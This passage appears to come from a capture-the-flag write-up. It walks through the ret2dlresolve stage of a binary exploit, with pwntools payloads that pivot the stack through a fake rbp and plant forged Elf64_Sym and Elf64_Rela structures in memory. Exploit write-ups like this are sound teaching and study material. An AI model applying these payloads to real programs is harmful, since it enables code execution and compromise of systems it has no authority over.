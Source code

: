 ```python
```

And for r_offset, we just leave it as `0xdeadbeef` and will change that after checking the stack. So now we just move to the next stage to know if our struct are in the correct position or not.

### Stage 5. Conduct ret2dlresolve & Leak libc address

We have the address for each struct so now just write stuff to stack. Remember where we stopped was at the stage 1 with the following code:

```python
rw_section = 0x403e00
mov_rsi_rbp_read = 0x401027

payload = p64(rw_section)           # Fake rbp
payload += p64(mov_rsi_rbp_read)    # rip
payload += p(0)*2                   # Just for padding so that we don't need to sleep()
p.send(payload)
```

So we will need to change the place we stack pivot because we want to write Elf64_Sym at the same time we stack pivot so our first stage will change a bit at the fake rbp:

```python
rw_section = 0x403e00
mov_rsi_rbp_read = 0x401027

payload = p64(rw_section - 0x10)    # Fake rbp
payload += p64(mov_rsi_rbp_read)    # rip
payload += p64(0)*2                   # Just for padding so that we don't need to sleep()
p.send(payload)
```

Because we want the Elf64_Sym structure is placed at the correct address so we subtract with 0x10 so that in the next input, we will write the first 0x10 of fake rbp and rip, then the next 0x10 is the Elf64_Sym in the correct address. And when it read for the second time, which means it's reading to the address of rw_section - 0x10. So we will write the ELf64_Sym struct to here with following code:

```python
# Write Elf64_Sym structure
payload = p64(Elf64_Rela_addr - 0x10)    # Fake rbp, write and jump to Elf64_Rela address
payload += p64(mov_rsi_rbp_read)
payload += Elf64_Sym_struct
p.send(payload)
```

And with the next input, it will read to the address of `Elf64_Rela_addr - 0x10` so we will write the Elf64_Rela structure with the following code:

```python
# Write Elf64_Rela structure
payload = p64(STRTAB_addr - 0x10)        # Fake rbp, write and jump to STRTAB address
payload += p64(mov_rsi_rbp_read)
payload += Elf64_Rela_struct
p.send(payload)
```
